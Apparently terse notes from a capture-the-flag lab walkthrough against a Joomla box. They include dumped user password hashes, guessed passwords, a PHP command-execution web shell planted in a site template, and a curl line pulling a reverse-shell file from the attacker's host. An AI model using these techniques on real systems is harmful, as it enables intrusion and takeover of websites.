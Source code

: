 # Revershel  in jooma

```mysql
 select id,username,password from edz2g_users;
+-----+-----------------+--------------------------------------------------------------+
| id  | username        | password                                                     |
+-----+-----------------+--------------------------------------------------------------+
| 400 | geordi.la.forge | $2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy |
| 401 | Guinan          | $2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q |
```

 guess password in `befault passwd`

```
ZxJyhGem4k338S2Y
ZD3YxfnSjezg67JZ
u*Z14ru0p#ttj83zS6
```

edit in : http://10.10.10.61:8080/administrator/index.php?option=com_templates&view=template&id=506&file=L2luZGV4LnBocA%3D%3D  template index.php

```php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
[snip......]
```

#  files writeable in joomla

**/dev/mapper/enterprise--vg-root on /var/www/html/files type ext4 (rw,relatime,errors=remount-ro,data=ordered)**

```bash
$ cd files
$ ls
lcars.zip
$ curl http://10.10.14.27/rv-9002.php  -o rv-9002.php
```

#  lcars in /bin/

```
ls -al /bin/lcars
-rwsr-xr-x 1 root root 12152 Sep  8  2017 /bin/lcars

State      Recv-Q Send-Q Local Address:Port               Peer Address:Port
LISTEN     0      128          *:5355                     *:*
LISTEN     0      64           *:32812                    *:*
```
